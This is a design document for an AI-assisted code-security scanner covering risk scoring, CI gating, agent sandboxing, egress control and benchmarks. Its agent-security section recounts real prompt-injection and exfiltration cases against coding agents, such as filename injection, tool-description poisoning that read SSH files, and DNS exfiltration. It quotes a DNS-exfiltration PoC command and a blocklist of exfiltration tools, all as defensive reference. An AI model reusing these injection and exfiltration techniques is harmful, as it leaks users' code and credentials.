| Deterministic + AI-disputed | 0.45 |
| AI-only, self-consistency 3/3 | 0.40 |
| AI-only, self-consistency 2/3 | 0.30 |

Confidence is floored at 0.30 rather than 0 so an AI-only finding is visible but structurally cannot reach the Critical band on its own — which is the arithmetic expression of "never gate CI on LLM-only findings."

### 16.4 Worked examples

**Finding A — hardcoded live Stripe secret key in `server/config.ts`, committed, present in git history.**
Detected by Gitleaks (format match) + VG entropy rule + Trivy secret scan → 3-tool agreement.
Base 0.95 (CWE-798 class) · E_x 0.85 (credential is live-format and reachable by anyone with repo read; no VG PoC because VG does not validate credentials against third-party APIs) · E_p 1.00 (public repo) · A 1.00 (payment credential) · B 1.00 (financial + lateral) · C 0.90.

```
ln R = ln0.95 + ln0.85 + ln1.00 + ln1.00 + ln1.00 + ln0.90
     = −0.0513 − 0.1625 + 0 + 0 + 0 − 0.1054 = −0.3192
```
Normalised → **Score 92 · CRITICAL**. KEV: n/a. EPSS: n/a. SSVC: **Act**. CI gate: **BLOCK** (high-precision deterministic class, multi-tool agreement). Fix path: deterministic codemod (move to env/secret store) + mandatory rotation instruction; VG does not rotate.

**Finding B — missing tenant check on `GET /api/v1/invoices/:id` (AI-proposed, S5 confirms authenticated route, two-identity property test written and it fails pre-patch).**
Base 0.80 (CWE-862/639 class, both in the 2025 Top 25) · E_x 1.00 (VG built a two-identity PoC and it succeeded) · E_p 0.70 (authenticated route) · A 0.70 (business data — invoices) · B 0.65 (bulk read across tenants via ID enumeration) · C 1.00 (verified PoC overrides the AI-only origin).

```
ln R = −0.2231 + 0 − 0.3567 − 0.3567 − 0.4308 + 0 = −1.3673
```
Normalised → **Score 74 · HIGH**. SSVC: **Attend**. CI gate: **BLOCK**, because the gate is keyed on *verification*, not on origin — an AI-originated finding with a verified PoC is stronger evidence than a single-tool deterministic hit. Note the counterfactual: identical finding **without** the PoC would be E_x 0.70, C 0.40 → score ≈ 51, **MEDIUM**, `report-only`, no gate. That 23-point swing from verification is the entire product thesis in one number.

**Finding C — `lodash` transitive dependency with a known prototype-pollution CVE, EPSS 0.07, not in KEV, dependency present in `devDependencies` only, no reachable call path found.**
Base 0.55 · E_x 0.40 (theoretical: EPSS well below 0.5, no KEV, S5 found no reachable path) · E_p 0.25 (dev-only) · A 0.50 · B 0.40 · C 0.90 (Trivy and osv-scanner agree on purl+alias).

```
ln R = −0.5978 − 0.9163 − 1.3863 − 0.6931 − 0.9163 − 0.1054 = −4.6152
```
Normalised → **Score 23 · LOW**. KEV false. EPSS percentile carried verbatim. SSVC: **Track**. CI gate: **PASS**, listed in the report. This is the case where a naive CVSS-only pipeline would have shouted "High — 7.4" and burned the developer's attention, and where the 20× disagreement between SCA tools on identical input ([Imtiaz et al.](https://arxiv.org/abs/2108.12078)) makes unranked output actively harmful.

### 16.5 KEV / EPSS / SSVC as separate outputs

Composite scores hide their inputs, so VG carries the raw signals as first-class fields on every applicable finding: `kev: bool` + KEV date-added; `epss: {score, percentile, model_date}`; `ssvc: {exploitation, automatable, technical_impact, mission_prevalence, decision}`. Rationale: buyers with existing vulnerability-management processes need to join on these, and the 2025 CWE Top 10 KEV Weaknesses list is itself a published prioritisation artifact ([CWE news](https://cwe.mitre.org/news/index.html)). Feeds are cached for offline mode with the **feed age stamped into the report**; an offline scan with a 40-day-old EPSS snapshot must say so. GitHub's Dependabot alerts API already supports sorting by `epss_percentage` ([Dependabot alerts API](https://docs.github.com/en/rest/dependabot/alerts)), so the field mapping is well-trodden.

### 16.6 CI gating policy

Default policy — deliberately narrow, because with 12.7% best-case recall and a 70.9% combined miss rate a pass/fail gate "is neither a security control nor defensible to users":

**Block the build only when all three hold:**
1. the finding class is high-precision — verified secret with a format match, KEV-listed CVE with a confirmed purl match, verified PoC of any class, or a Tier-1 injection signal (Unicode Tags in an auto-loaded instruction file, or repo content that sets an auto-approval flag);
2. `Confidence ≥ 0.80`;
3. `Score ≥ 85` **or** `kev == true` **or** `ssvc == Act`.

**Never block on:** `source=ai` findings without verification; single-tool low-precision SAST hits; `disputed` findings; `exposure_unknown` findings; anything with `Confidence < 0.80`.

**Warn (non-blocking):** Score 70–84, or multi-tool agreement without verification.

**Report-only:** everything else.

Escape hatches, all auditable: `.vg/policy.yml` can tighten but not silently loosen the deterministic gate classes; suppressions require a signed `.vg/suppressions.yml` entry with an expiry date and a reason; there is no silent suppression path. Rulesets, if used for enforcement on the GitHub side, aggregate with the most restrictive version winning and are limited to 75 per repository ([rulesets](https://docs.github.com/en/repositories/configuring-branches-and-merges-in-your-repository/managing-rulesets/about-rulesets)).

---

## 17. Agent Security

VG scans hostile repositories, so VG is itself a target. This section is the self-security architecture. The framing premise is the lethal trifecta — private data + untrusted content + an exfiltration channel ([Simon Willison](https://simonwillison.net/2025/Jun/16/the-lethal-trifecta/)) — and the Agents Rule of Two: no session may hold more than two of {untrustworthy input, sensitive access, ability to change state or communicate externally} ([Rule of Two as reported](https://simonwillison.net/2025/Nov/2/new-prompt-injection-papers/)).

### 17.1 Trust levels

| Level | Content | Handling |
|---|---|---|
| **T0** | Machine-verified facts: checksums, registry API responses, deterministic scanner output, advisory DB records | May enter prompts as typed facts; may inform gates |
| **T1** | Repo **code** as data | Analysed; enters prompts only inside envelopes; never executed outside a tier-3 sandbox |
| **T2** | Repo **prose/config** as data-only, quarantined: `README.md`, `CONTRIBUTING.md`, `SECURITY.md`, `AGENTS.md`, `CLAUDE.md`, `.claude/settings.json`, `.cursorrules`, `.cursor/rules/*.mdc`, `.cursor/mcp.json`, `.clinerules`, `.windsurfrules`, `.github/copilot-instructions.md`, `.vscode/settings.json`, `SKILL.md` (+ its `name`/`description`), issues, PRs, commit messages, code comments, docstrings, `package.json` scripts, `Makefile`, `Dockerfile`, workflows, **filenames** | Never instructions. Scanned as finding sources. Envelope-only. |
| **T3** | External network content (fetched docs, registry pages, advisory text) | Envelope-only, plus origin recorded; egress allowlist required to obtain it |

Why T2 is this broad: GitLab Duo was exploitable through MR descriptions, MR comments, commit messages, issue descriptions **and source code** — "Every single one of these worked" ([Legit Security](https://www.legitsecurity.com/blog/remote-prompt-injection-in-gitlab-duo)). Copilot "automatically includes `AGENTS.md` files in every request made within a repository," and `.claude/settings.json` is read **before user interaction** ([CSA](https://labs.cloudsecurityalliance.org/research/csa-research-note-readme-instruction-injection-ai-coding-age/)). Filenames are in scope because a file literally named as an instruction to an assistant was confirmed to work against Copilot Chat v0.28.0 in Agent mode ([CSA](https://labs.cloudsecurityalliance.org/research/csa-research-note-readme-instruction-injection-ai-coding-age/)). Skill `name` and `description` fields are loaded into system-prompt context "from the get go" ([Embrace The Red](https://embracethered.com/blog/posts/2026/scary-agent-skills/)).

### 17.2 Two-process split

**Analyzer (untrusted side)** — no network at all, no secrets in its environment, read-only bind mount of the repo, seccomp + Landlock (or gVisor/microVM in tier 3), CPU/memory/time/fd/process limits, unprivileged user, no `/var/run/docker.sock`, no unix sockets to the host. Runs S0–S5, S8's patch/test/verify, and nothing else.

**Orchestrator (trusted side)** — holds model credentials and the GitHub App installation token, never reads repo files directly. It receives only structured, schema-validated, size-capped messages from the Analyzer over a single pipe. It performs egress through the allowlist proxy and performs all writes (PRs, checks, comments) behind approval gates.

The split exists because the alternatives are documented failures. `allowUnixSockets` — especially `/var/run/docker.sock` — "enables sandbox bypass and effective host access"; environment variables including parent-process credentials are inherited by default; and built-in `Read`, `Edit`, `Write` tools **do not run through the sandbox** in at least one shipping agent ([sandboxing](https://docs.claude.com/en/docs/claude-code/sandboxing)). Pillar's sandbox-escape series identifies the general boundary condition — the agent writes a file that a **trusted, unsandboxed host component** later executes (Python interpreter discovery, git fsmonitor, `.vscode` task runners, hook engines, the Docker socket) — and names **denylist-based sandboxes** as one of four recurring failure modes ([Pillar](https://www.pillar.security/blog/the-week-of-sandbox-escapes)). VG's Analyzer therefore has no host component that executes repo-written files, and the sandbox policy is allowlist-shaped.

### 17.3 Sandbox tiers

| Tier | Primitive | Used for | Network | Repo mount | Residual risk |
|---|---|---|---|---|---|
| **1 — Parse** | bubblewrap + Landlock + seccomp (Linux, non-setuid); `sandbox-exec`/`srt` on macOS dev | S0–S5, S7, S9 read side | none (S0 git fetch is a separate, allowlisted step) | read-only | bubblewrap setuid CVEs avoided by userns deployment ([advisories](https://api.github.com/repos/containers/bubblewrap/security-advisories)); macOS `sandbox-exec` is Apple-deprecated |
| **2 — Model I/O** | Orchestrator process, no repo mount | S6 | model endpoint only, via broker proxy | **none** | provider-side logging; injected content distorting confidence |
| **3 — Execute** | gVisor, or microVM (matchlock/Firecracker-class) | S8 build/test/verify, optional container/DAST | **none** during verify | copy-on-write worktree | kernel-level escapes; `srt` has a published Network Sandboxing Escape advisory `GHSA-9gqj-5w7c-vx47`, and no sandbox in this landscape claims completeness — `ai-jail` says it plainly: "not a replacement for a disposable VM when running hostile code" ([README](https://api.github.com/repos/akitaonrails/ai-jail/readme)) |

### 17.4 Egress allowlist proxy

Default-deny. Every outbound connection from either process goes through the VG proxy, which:

- **terminates TLS** and inspects SNI + HTTP host + path + method, because a hostname-only, TLS-blind proxy "may permit domain fronting" ([sandboxing](https://docs.claude.com/en/docs/claude-code/sandboxing));
- allowlists by **exact host + path prefix + method**, not by domain — broad domains like `github.com` are themselves an exfiltration channel (gists, issue comments), which is why VG's GitHub allowlist is scoped to the specific App API paths it needs;
- **blocks DNS-based egress outright**: no `ping`, `nslookup`, `host`, `dig`, or arbitrary resolver access from the sandbox. This is not theoretical — CVE-2025-55284 was exactly a read-file-then-send-over-DNS channel through an over-broad "safe command" allowlist, with a PoC as simple as `Bash(ping -c 2 stuff.wuzzi.net)` ([Embrace The Red](https://embracethered.com/blog/posts/2025/claude-code-exfiltration-via-dns-requests/), [NVD](https://nvd.nist.gov/vuln/detail/CVE-2025-55284));
- blocks **schema/asset auto-fetch** patterns: no JSON `$schema` URL resolution, no remote image/asset fetch, no markdown-triggered fetch. RoguePilot exfiltrated `GITHUB_TOKEN` through a JSON `$schema` URL auto-fetch with `json.schemaDownload.enable` on by default ([Orca](https://orca.security/resources/blog/roguepilot-github-copilot-vulnerability/)), and CamoLeak exfiltrated private source through GitHub's own Camo image proxy, bypassing CSP ([Legit Security](https://www.legitsecurity.com/blog/camoleak-critical-github-copilot-vulnerability-leaks-private-source-code));
- enforces **response-size and rate caps**, and logs request digests (not bodies) into the hash-chained log;
- treats an **expired allowlisted domain** as a live threat: ForcedLeak exfiltrated CRM data through an expired whitelisted domain the researchers bought for $5 ([Noma Labs](https://noma.security/noma-labs/forcedleak/)). VG re-resolves and re-verifies allowlist entries (registration age, cert issuer) on a schedule and fails closed on change.

Optional integration: [pipelock](https://github.com/luckyPipewrench/pipelock) (Apache-2.0) for mediator-signed action receipts — verifiable audit evidence generated **outside** the agent — which is a property VG cannot produce about itself.

### 17.5 Secret brokering

The Analyzer never possesses a credential. Model API keys and the GitHub App token live in the Orchestrator and are injected by the proxy at request time; the sandbox sees a placeholder. This is the convergent design of `matchlock` ("Your secrets never enter the VM"), `gondolin`'s `createHttpHooks({allowedHosts, secrets})`, and `Infisical/agent-vault` ("Agents should not possess credentials") — and it defeats credential exfiltration **even under successful prompt injection**, which pure sandboxes do not ([matchlock](https://api.github.com/repos/jingkaihe/matchlock/readme), [gondolin](https://api.github.com/repos/earendil-works/gondolin/readme), [agent-vault](https://api.github.com/repos/Infisical/agent-vault/readme)).

Two hardening notes taken from the failures of others: secrets must never appear in process arguments — `microsandbox` carries an advisory for secrets exposed in world-readable process args ([advisories](https://api.github.com/repos/superradcompany/microsandbox/security-advisories)) — and the broker itself becomes the highest-value target, so it is minimal, audited, and holds no repo data. Note also that in GitHub Actions, any user with write access to a repository has read access to all its secrets, and secret redaction in logs is **not guaranteed** ([hardening](https://docs.github.com/en/actions/security-for-github-actions/security-guides/security-hardening-for-github-actions)) — which is a reason VG's Action path is the fallback and the App is primary.

### 17.6 Tool, command and argument allowlists

VG's Analyzer does not have a shell. It has a fixed set of **binary invocations** with **structured argument construction**:

- allowlist of executables by absolute path **and content digest** (pinned in the image);
- arguments are built from typed parameters by VG code — no string concatenation, no shell interpolation, `execve` with an argv array, never `sh -c`;
- an **argument allowlist per binary**: flag names are enumerated; values are type- and pattern-checked; path arguments must resolve inside the sandbox mount after symlink resolution;
- separator hardening: reject `--`-smuggling, `$IFS` tricks, short-flag aliasing, and any argument beginning with `-` where a path is expected.

This is not paranoia about a theoretical class. Argument injection into pre-approved commands turned "safe" tools into execution primitives and yielded **RCE in three production agents**, bypassing human approval entirely ([Trail of Bits](https://blog.trailofbits.com/2025/10/22/prompt-injection-to-rce-in-ai-agents/)). Parsing bugs in exactly this area produced CVE-2025-54795 (command-confirmation bypass, CVSSv4 8.7), CVE-2025-64755 (`sed` read-only bypass, 8.7) and CVE-2025-66032 (`$IFS`/short-flag bypass) ([NVD 54795](https://nvd.nist.gov/vuln/detail/CVE-2025-54795), [NVD 64755](https://nvd.nist.gov/vuln/detail/CVE-2025-64755), [NVD 66032](https://nvd.nist.gov/vuln/detail/CVE-2025-66032)). VG never executes a command derived from repo content, and never templates repo-derived values into a startup command — CVE-2025-59041 was RCE from cloning and opening a repo because a startup command templated `git config user.email` **before** the trust dialog ([NVD](https://nvd.nist.gov/vuln/detail/CVE-2025-59041)).

### 17.7 Approval gates

Read/analyse is autonomous. Every state-changing action requires a gate:

| Action | Gate |
|---|---|
| Open a PR / push a branch | human approval per PR (default), or a signed org policy authorising a specific class in a specific repo |
| Write a Check/annotation | automatic (non-mutating to code) |
| Post a PR comment containing repo excerpts | automatic, but excerpts are neutralised so VG does not become an injection relay into the *next* reader's agent |
| Enable a fix class org-wide | signed policy change, logged, expiry required |
| Modify VG's own allowlists/policy | out-of-band, never from a scan session |

Measured limit on human gates, stated because it changes the design: in a 1,053-tester study where one permission prompt was swapped for a clearly dangerous command, **only 13.6% of humans refused it** ([Willison](https://simonwillison.net/2026/Aug/8/auto-mode/)). So VG's gates present **decisions, not diffs**: one finding, the exploit, the verification result, and the explicit list of gates that did not pass. Cursor's and GitHub's response to the Rules File Backdoor — that reviewing suggestions is the user's responsibility — places the burden precisely where measurement shows humans are weakest ([Pillar](https://www.pillar.security/blog/new-vulnerability-in-github-copilot-and-cursor-how-hackers-can-weaponize-code-agents)), and VG must not repeat that.

### 17.8 Hash-chained audit log

Append-only, one record per event: `{seq, ts, actor(process), stage, action, inputs_digest, outputs_digest, tool_versions, model_id, prompt_hash, response_hash, decision, prev_hash, hash}`. `hash = SHA-256(canonical_json(record_without_hash) || prev_hash)`. Head hash is Sigstore-signed at scan end and embedded in the report and every PR. Redaction is structural: secret values are never written, only normalised-value hashes (which is also how secrets are deduplicated, §13). Model inputs/outputs are stored as hashes by default and as full text only under an explicit `--audit-full` flag with its own retention policy.

Log configuration cannot be changed by a scan session; changes are themselves logged events. The design intent matches Anthropic's own recommendation to use `ConfigChange` hooks to audit or block settings changes during a session ([security](https://docs.claude.com/en/docs/claude-code/security)).

### 17.9 Resource limits and output validation

Limits: wall-clock and CPU per stage; RSS cap with OOM → stage `partial`; max open fds; max processes; max files and max total bytes read from the repo; max archive expansion ratio; recursion depth cap on decode passes (encoding can be nested, including encoding the `%` sign itself, [Unit 42](https://unit42.paloaltonetworks.com/ai-agent-prompt-injection/)); max envelope bytes; max findings.

Output validation on everything crossing a boundary: every scanner's output is schema-validated before entering the correlator (a malformed SARIF from a crashing tool must not become a malformed finding); every LLM response is schema-validated and grounding-checked; every string rendered into a report or PR comment is escaped for its destination and stripped of ANSI control characters — ANSI abuse is a documented MCP/terminal injection vector and `mcp-context-protector` ships ANSI sanitisation as a named feature ([README](https://api.github.com/repos/trailofbits/mcp-context-protector/readme)).

### 17.10 Prompt-injection defenses and their measured limits

VG's stack, in order of strength:

1. **Architectural (strongest):** S6 has no tools, no filesystem write, no egress beyond the model endpoint, and no gating authority. A successful injection of S6 buys the attacker confidence-score distortion and prose, not action. This is the Rule of Two applied structurally rather than behaviourally.
2. **Capability separation:** two-process split, secret brokering, egress allowlist (§17.2–17.5).
3. **Data/instruction separation:** the `<untrusted_data>` envelope with normalisation and instruction-stripping (§14.2). Spotlighting-family evidence: attack success reduced from over 50% to below 2% in Microsoft's evaluation ([arXiv 2403.14720](https://arxiv.org/abs/2403.14720)).
4. **Dual-role Q/P decomposition** in the CaMeL shape, with CaMeL's own stated non-goals accepted ([arXiv 2503.18813](https://arxiv.org/abs/2503.18813)).
5. **Detection (weakest, and used only for triage):** the Tier 1–4 heuristics of §14/§13.

**Honest limits — this is the section a reviewer should hold us to.** Anthropic: "prompt injection is far from a solved problem" and "a 1% attack success rate—while a significant improvement—still represents meaningful risk" ([Anthropic](https://www.anthropic.com/news/prompt-injection-defenses)). Fourteen authors from IBM, Invariant Labs, ETH Zurich, Google and Microsoft: as long as agents and defenses rely on the current class of language models, "it is unlikely that general-purpose agents can provide meaningful and reliable safety guarantees" ([arXiv 2506.08837](https://arxiv.org/abs/2506.08837)). A Jan 2026 survey of 78 primary sources reports adaptive attack success **exceeding 85%** against state-of-the-art defenses, **all 18** analysed defenses bypassed under adaptive optimisation with success exceeding 78%, all 12 Agent Security Bench defenses bypassed with adaptive success exceeding 90%, and **73%** of platforms failing to enforce at least one trust boundary ([arXiv 2601.17548](https://arxiv.org/html/2601.17548v1)). Trail of Bits bypassed **every** tested agent-skill scanner — ClawHub, Cisco, Snyk, Socket, NVIDIA SkillSpector — using whitespace inflation, `.pyc` bytecode, DOCX archive indirection, and prompt injection against the LLM scanner itself ([CSA](https://labs.cloudsecurityalliance.org/research/csa-research-note-ai-agent-skill-scanner-bypass-20260610-csa/)). Cloudflare found a U-shaped relationship between injected comment volume and evasion, with ~20 comments sufficient to trigger bypass and detection dropping from ~90% ([Cloudflare](https://www.cloudflare.com/cloudforce-one/research/adversarial-deception-a-study-of-indirect-prompt-code-injection/)). NCC Group showed injection success varies by which prompt role the payload lands in and is non-deterministic across identical repeated attempts — so single-run "blocked" results are weak evidence ([role](https://www.nccgroup.com/research/where-you-inject-matters-the-role-specific-impact-of-prompt-injection-attacks-on-openai-models/), [non-determinism](https://www.nccgroup.com/research/non-deterministic-nature-of-prompt-injection/)). Even Soft Instruction De-escalation answers its own robustness question: "Is this method provably robust? No." ([arXiv 2510.21057](https://arxiv.org/abs/2510.21057)).

VG's position: **detection is triage, architecture is the control.** VG publishes its own injection-resistance ASR per release (§18) and refuses to claim immunity.

### 17.11 MCP trust model

`vg-mcp` is read-only by default: `vg.scan`, `vg.explain`, `vg.repo_trust` are read tools; `vg.propose_fix` returns an unapplied diff; `vg.verify_fix` runs the harness and returns evidence. No MCP tool writes to the user's repo or opens a PR — those are Orchestrator actions behind approval gates.

Rules for VG as an MCP **server**: tool descriptions are static, versioned, hash-pinned and published (so a rug-pull against VG is detectable by clients); tool outputs never contain raw repo text — excerpts are returned inside neutralised envelopes with an explicit `treat_as_data` flag, because whatever VG returns lands in another agent's context; outputs are ANSI-stripped and length-capped; no tool takes a free-form command parameter.

Rules for VG as an MCP **client** (only in optional dynamic analysis): wrap untrusted servers with `mcp-context-protector` for trust-on-first-use config pinning and rug-pull blocking ([README](https://api.github.com/repos/trailofbits/mcp-context-protector/readme)); diff MCP config **content**, not just key names — CVE-2025-54136 (MCPoison) existed because one-time approval was bound to the key name, letting an attacker swap an approved benign entry for a malicious one and gain silent persistent execution on every project open ([Check Point](https://research.checkpoint.com/2025/cursor-vulnerability-mcpoison/)); treat every tool description as T2 data, since tool-description poisoning is "a specialized form of indirect prompt injection" that has been used to read `~/.cursor/mcp.json` and `~/.ssh/secret.txt` and smuggle contents through a hidden `sidenote` parameter ([Invariant Labs](https://invariantlabs.ai/blog/mcp-security-notification-tool-poisoning-attacks), [arXiv 2603.21642](https://arxiv.org/html/2603.21642v1)).

The infrastructure assumption is that MCP gateways and registries are themselves young and untrusted: `docker/mcp-gateway` carries 8 advisories including two criticals (unvalidated config-driven bind mount; unauthenticated access to proxied tools in container mode) plus image signature verification **off by default** ([advisories](https://api.github.com/repos/docker/mcp-gateway/security-advisories)); `IBM/mcp-context-forge` has a critical hardcoded default `JWT_SECRET_KEY` enabling admin token forgery plus SSTI→RCE ([advisories](https://api.github.com/repos/IBM/mcp-context-forge/security-advisories)); `stacklok/toolhive` had containerised servers reaching host services via `host.docker.internal` ([advisories](https://api.github.com/repos/stacklok/toolhive/security-advisories)); `agentgateway` had stateful MCP sessions crossing routes and overwriting the authorization policy ([advisories](https://api.github.com/repos/agentgateway/agentgateway/security-advisories)); and `modelcontextprotocol/registry` has unauthenticated SSRF via IPv6 6to4/NAT64 plus replayable GitHub OIDC tokens across deployments ([advisories](https://api.github.com/repos/modelcontextprotocol/registry/security-advisories)). Anthropic states plainly that it does **not** security-audit or manage any MCP server ([security](https://docs.claude.com/en/docs/claude-code/security)). VG therefore never assumes a gateway is a control.

One more supply-chain note that changes how we pin dependencies: `invariantlabs-ai/mcp-scan` now resolves to `snyk/agent-scan`, `getjavelin/ramparts` to `highflame-ai/ramparts`, `microsandbox/microsandbox` to `superradcompany/microsandbox`, and `mavdol/capsule` to `capsulerun/capsule` ([agent-scan](https://api.github.com/repos/snyk/agent-scan), [ramparts](https://api.github.com/repos/getjavelin/ramparts), [microsandbox](https://api.github.com/repos/superradcompany/microsandbox), [capsule](https://api.github.com/repos/mavdol/capsule)). Anything pinned to an old name **silently follows a redirect** — VG pins by content digest, not by repo path.

### 17.12 Agent Security Architecture diagram

```
┌──────────────────────────── HOST / CI RUNNER ────────────────────────────┐
│                                                                          │
│  ┌───────────────── ORCHESTRATOR (trusted, no repo reads) ─────────────┐  │
│  │  policy engine │ approval gates │ risk engine │ report writer       │  │
│  │  SECRETS: model keys, GitHub App installation token  ── never       │  │
│  │           passed downward ──────────────────────────────────────┐   │  │
│  └───────┬──────────────────────────────────────────┬─────────────┼───┘  │
│          │ structured, schema-validated,            │             │      │
│          │ size-capped IPC (single pipe)            │             ▼      │
│          │  ▲ findings, digests, evidence            │   ┌────────────────┐│
│          ▼  │  (never raw repo bytes upward          │   │ EGRESS PROXY   ││
│  ┌──────────┴───────────────────────────┐            │   │ default-deny   ││
│  │ ANALYZER  (untrusted side)           │            │   │ TLS-terminating││
│  │ seccomp + Landlock (tier 1)          │            └──▶│ host+path+method││
│  │ gVisor / microVM (tier 3, S8 only)   │                │ allowlist      ││
│  │ NO NETWORK · NO SECRETS              │                │ NO DNS TOOLS   ││
│  │ read-only repo mount (CoW in tier 3) │                │ secret broker  ││
│  │                                      │                │ injection      ││
│  │  S0 acquire   S1 trust/hijack        │                │ size/rate caps ││
│  │  S2 inventory S3 fan-out scanners    │                └───────┬────────┘│
│  │  S4 correlate S5 context             │                        │         │
│  │  S8 patch/test/verify (tier 3)       │                        ▼         │
│  │  allowlisted binaries only,          │            ┌──────────────────┐  │
│  │  argv arrays, argument allowlists,   │            │ model endpoint   │  │
│  │  NO SHELL                            │            │ (remote or local │  │
│  └──────────────────────────────────────┘            │  Ollama/vLLM)    │  │
│                                                       └──────────────────┘  │
│  ┌──────────────────────────────────────────────────────────────────────┐  │
│  │ APPEND-ONLY HASH-CHAINED AUDIT LOG (redacted, Sigstore-signed head)  │  │
│  └──────────────────────────────────────────────────────────────────────┘  │
└──────────────────────────────────────────────────────────────────────────┘
        ▲                                                        │
        │ untrusted repo (T1 code, T2 prose/config)              ▼
   ┌────┴─────────────┐                              ┌────────────────────────┐
   │ hostile repo /   │                              │ GitHub App: Checks,    │
   │ PR / issue / MCP │                              │ SARIF upload, PRs      │
   │ config           │                              │ (approval-gated)       │
   └──────────────────┘                              └────────────────────────┘

RULE OF TWO CHECK — no box holds all three:
  Analyzer : untrusted input ✓ · sensitive access ✗ · egress ✗
  Orch.    : untrusted input ✗ · sensitive access ✓ · egress ✓
  Proxy    : untrusted input ✗ · sensitive access ✓ (broker) · egress ✓ (allowlist only)
```

### 17.13 Residual-risk register

| ID | Residual risk | Likelihood | Impact | Mitigation in place | Accepted residual |
|---|---|---|---|---|---|
| R1 | Sandbox kernel escape (gVisor/microVM/bubblewrap) | Low | Critical | tier-3 for execution only; non-setuid bubblewrap; patch SLA on `srt`/bubblewrap advisories; no docker socket, no unix sockets | Non-zero. No sandbox in the surveyed landscape claims completeness; `srt` has `GHSA-9gqj-5w7c-vx47`, bubblewrap has CVE-2026-41163/CVE-2020-5291 |
| R2 | Injection of the AI layer distorts confidence/prose | **High** | Low–Medium | S6 has no tools/egress/gating; deterministic layer independent; disagreement policy; self-consistency | Accepted. Adaptive attacks bypass 85%+ of published defenses ([survey](https://arxiv.org/html/2601.17548v1)) |
| R3 | Detection miss (false negative) on a real vulnerability | **High** | High | multi-tool fan-out; AI layer for classes SAST misses; published recall per class; explicit "not a gate" positioning | Accepted and published. Best-case single-tool real-world recall 12.7%, combined miss 70.9% ([Li et al.](https://sen-chen.github.io/img_cs/pdf/fse2023-sast.pdf)) |
| R4 | A "verified" fix is still wrong | Medium | High | four-gate harness; exploit oracle not just tests; differential rescan; human approval; rollback | Accepted. Differential testing alone is 41.7% precision ([Meta](https://engineering.fb.com/2025/04/29/ai-research/autopatchbench-benchmark-ai-powered-security-fixes/)) |
| R5 | Egress via an allowlisted-but-compromised or expired host | Low–Medium | Critical | exact host+path+method allowlist; TLS termination; no DNS tools; periodic re-verification of allowlist entries | Accepted. Precedents: ForcedLeak ($5 expired domain), CamoLeak (GitHub's own Camo proxy) |
| R6 | Supply-chain compromise of a bundled scanner | Low | Critical | digest pinning (never tags/names); SBOM of VG itself; Sigstore verification; reproducible image builds; repo-rename redirects assumed hostile | Accepted. Only SHA pinning makes a dependency immutable ([hardening](https://docs.github.com/en/actions/security-for-github-actions/security-guides/security-hardening-for-github-actions)) |
| R7 | Human approves a bad patch | **High** | Medium–High | decision-shaped gates (exploit + verification + failed-gate list), one finding per PR, no bundling | Accepted. Only 13.6% of 1,053 testers refused a clearly dangerous prompt ([Willison](https://simonwillison.net/2026/Aug/8/auto-mode/)) |
| R8 | VG becomes an injection relay: our report/comment carries a payload into another agent's context | Medium | Medium | neutralised excerpts in all outputs; ANSI stripping; `treat_as_data` flags on MCP responses; length caps | Accepted; unusual and worth publishing as a design note |
| R9 | Dynamic/timed payloads invisible to static scanning | Medium | Medium | declared out of scope in the report, not silently missed | Accepted. Payloads decoded into the DOM after load, or canvas-rendered text reachable only via OCR, are not statically detectable ([Unit 42](https://unit42.paloaltonetworks.com/ai-agent-prompt-injection/)) |
| R10 | Stale advisory DB silently reduces recall in offline mode | Medium | Medium | DB age stamped into every report; CI warning above a threshold | Accepted, made visible |
| R11 | Model provider logs sensitive code excerpts | Medium | Medium–High | offline/local-model profile; excerpt minimisation; `--offline` refuses remote endpoints; BYO keys so the customer's own DPA applies | Accepted with a documented control |
| R12 | Our own PR/Check path abused (Actions threat model) | Low–Medium | High | GitHub App with minimum permissions rather than `GITHUB_TOKEN`; no `pull_request_target` patterns; never interpolate untrusted context into `run:` | Accepted. Script injection via `${{ github.event.pull_request.title }}` is substituted before the shell runs ([hardening](https://docs.github.com/en/actions/security-for-github-actions/security-guides/security-hardening-for-github-actions)) |

---

## 18. Benchmark

### 18.1 Existing benchmarks: what we use, for what, and what we refuse to claim

| Purpose | Benchmark | Size / license | How VG uses it |
|---|---|---|---|
| Fast synthetic detection signal in CI | [OWASP Benchmark](https://owasp.org/www-project-benchmark/) Java v1.2 (2,740 cases; Python v0.1 = 1,230), GPL-2.0 corpus; [Juliet 1.3 / SARD suite 112](https://samate.nist.gov/SARD/test-suites/112) (64,099 cases, 118 CWEs, CC0) | Java v1.2 first released 2016; NIST [SARD](https://samate.nist.gov/SARD/) >450,000 cases / >150 CWEs | Regression tripwire only. We do **not** publish a headline score: the OWASP project itself says the published free-tool scorecards are "from several years ago" |
| Real-code, repo-scale detection (Java) | [CWE-Bench-Java](https://github.com/iris-sast/cwe-bench-java) — 120 CVEs / 120 projects / 4 CWEs, MIT | via [iris](https://github.com/iris-sast/iris) | Primary external detection metric for V2 Java support, reported against the published baseline: CodeQL 27/120 vs IRIS+GPT-4 55/120, with 4 previously unknown vulnerabilities found ([IRIS paper](https://arxiv.org/abs/2405.17238)) |
| Real-code detection (JS/TS) | [OpenSSF CVE Benchmark](https://github.com/ossf-cve-benchmark/ossf-cve-benchmark) — 200+ real JS/TS CVEs, MIT | early-stage project | Primary external detection metric for MVP languages |
| LLM reasoning robustness | [SecLLMHolmes](https://github.com/ai4cloudops/SecLLMHolmes) — 228 scenarios, 8 CWEs, 15 real CVEs, GPL-3.0 | run as external harness only (license) | Perturbation robustness; expect degradation — PaLM2 wrong in 26% and GPT-4 in 17% under renaming/library perturbations ([paper](https://arxiv.org/abs/2312.12575)) |
| Auto-fix with real verification | [AutoPatchBench](https://engineering.fb.com/2025/04/29/ai-research/autopatchbench-benchmark-ai-powered-security-fixes/) (136 C/C++, Lite 113, 11 crash types) over [ARVO](https://github.com/n132/ARVO-Meta) (>5,000 reproducible vulns / >250 projects) | AutoPatchBench in [PurpleLlama](https://github.com/meta-llama/PurpleLlama) (MIT for evals); ARVO license **n.a.** | The reference bar for verified-fix rate. Published as a comparable number even though VG's C/C++ support lands in V3 |
| Detect-then-patch agent loop | [SEC-bench](https://github.com/SEC-bench/SEC-bench) — PoC generation (poc-repo/poc-desc/poc-san) + patching, MIT | last commit 2026-01-27, NeurIPS 2025 | V2 end-to-end loop evaluation |
| AI-code-specific patching, exploit-graded | [muence-ai/vibesec](https://github.com/muence-ai/vibesec) — 1,000 execution-verified FastAPI/Python tasks (IDOR, missing auth, mass assignment, privesc, path traversal, SQLi), MIT | new (created 2026-08-06), single-stack | **Closest existing corpus to VG's actual target**. Grading requires exploit dead + behaviour preserved, "No model judges the result" |
